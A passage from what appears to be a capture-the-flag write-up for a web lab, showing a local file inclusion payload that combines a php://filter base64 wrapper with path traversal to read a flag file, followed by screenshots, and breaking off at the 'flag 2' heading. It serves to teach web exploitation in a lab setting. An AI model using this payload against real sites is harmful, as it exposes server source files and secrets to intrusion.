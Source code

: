 `/?view=php://filter/convert.base64-encode/resource=cats/../flag`

<figure><img src="../../.gitbook/assets/dogcat37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/dogcat38.png" alt=""><figcaption></figcaption></figure>

And this is how we get the first flag.

# What is flag 2?
